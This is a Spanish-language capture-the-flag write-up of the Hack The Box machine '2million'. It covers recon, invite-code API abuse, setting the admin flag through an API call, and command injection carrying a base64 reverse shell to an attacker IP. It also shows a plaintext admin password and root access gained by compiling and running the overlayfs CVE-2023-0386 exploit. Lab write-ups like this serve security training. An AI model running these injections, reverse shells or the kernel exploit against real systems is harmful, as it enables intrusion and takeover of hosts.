






## Initial Recon

Primero un ping a la máquina víctima:

```bash
> ping -c 1 10.10.11.221                                                           
PING 10.10.11.221 (10.10.11.221) 56(84) bytes of data.
64 bytes from 10.10.11.221: icmp_seq=1 ttl=63 time=2162 ms

--- 10.10.11.221 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 2162.481/2162.481/2162.481/0.000 ms
```

Inicie el escaneo con nmap:

```bash
> nmap -sS -p- --open --min-rate 2000 -Pn -n 10.10.11.221 -oG scan
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-05 18:44 AST
Nmap scan report for 10.10.11.221
Host is up (0.089s latency).
Not shown: 61140 closed tcp ports (reset), 4393 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 44.46 seconds
```

```bash
> nmap -p22,80 -sVC 10.10.11.221                                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-05 18:48 AST
Nmap scan report for 10.10.11.221 (10.10.11.221)
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.99 seconds
```

## Web
Añadimos el dominio a nuestro /etc/hosts, vemos la página web (Puerto 80).



### Feroxbuster

Vamos a aplicar fuzzing para ver posibles directorios en la web:



Al investigar cada uno de nuestros resultados tenemos 2 directorios interesantes **/register** y **/js/inviteapi.min.js**



### Generate a Invite Code

Al parecer, necesitamos un código de invitación para acceder.

Miramos la otra ruta y vemos que es un script javascript:



encontrar una función que nos cree un código de invitación



Vemos que hace una petición POST a una api en **/api/v1/invite/how/to/generate.**

Estoy tratando de hacer una solicitud a la API. **(/api/v1)** pero me dice que no existe por lo que intento generar un código.

```bash
> curl -sXPOST http://2million.htb/api/v1/invite/how/to/generate
{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}
```

Devuelve una cadena en ROT13

```bash
> echo 'Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr' | tr 'A-Za-z' 'N-ZA-Mn-za-m'
In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate
```

Creamos nuestro código de invitación.

```bash
> curl -sXPOST http://2million.htb/api/v1/invite/generate
{"0":200,"success":1,"data":{"code":"VE0yRlgtMlkxOVMtR0JPQzEtNTc5TUs=","format":"encoded"}}
```

```bash
> echo "VE0yRlgtMlkxOVMtR0JPQzEtNTc5TUs=" | base64 -d                                                                         
TM2FX-2Y19S-GBOC1-579MK
```

Ahora, con la cookie que se nos proporciona al iniciar sesión, podemos acceder a más puntos finales de la API.



### See more information with session cookie

Ahora, con la cookie que se nos proporciona al iniciar sesión, podemos acceder a más puntos finales de la API.

```bash
> curl -s http://2million.htb/api/v1 -b 'PHPSESSID=ugpbnr10pk9rjvclhpskh2rsgh' | jq
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

### Change my user settings

Cambiamos nuestra configuración de usuario:

```bash
curl -sXPUT http://2million.htb/api/v1/admin/settings/update -b 'PHPSESSID=ugpbnr10pk9rjvclhpskh2rsgh' -H 'Content-Type: application/json' -d '{"email": "mhil4ne@gmail.com", "is_admin": 1}' 
```

Ahora que somos el usuario admin, podemos inyectar comandos a través del parámetro username.

### RevShell (www-data)

Preparamos nuestro revShell y lo pasamos en Base64:

```bash
curl -sXPOST http://2million.htb/api/v1/admin/vpn/generate -b 'PHPSESSID=ugpbnr10pk9rjvclhpskh2rsgh' -H 'Content-Type: application/json' -d '{"username":"mhil4ne;echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE1MC80NDMgMD4mMQo=| base64 -d | bash"}'
```

```bash
nc -nlvp 443
```

find .env:

Mira el archivo /etc/passwd:

```bash
admin1000:1000::/home/admin:/bin/bash
```

### admin user credentials
Pruebe la contraseña con este usuario:

```bash
admin : SuperDuperPass123
```

# Privilege Escalation

### CVE-2023-0386

Lo llevamos a nuestra máquina de ataque:

```bash
svn checkout https://github.com/DataDog/security-labs-pocs/trunk/proof-of-concept-exploits/overlayfs-cve-2023-0386
```

Compilamos el archivo:

>Install libfuse-dev

```bash
gcc poc.c -o poc -D_FILE_OFFSET_BITS=64 -static -lfuse -ldl -lpthread
```

Pasas el archivo a la máquina víctima:

```bash
# From the victim machine
nc -nlvp 1222 > poc
```

```bash
# From the attacking machine
nc 10.10.11.221 1234 < poc
```
Ahora le damos permisos de ejecucion:

```bash
chmod +x poc
```
Lo ejecutamos

```bash
./poc
```

Ahora eres Root.

```bash
root@2million:~# whoami
root
```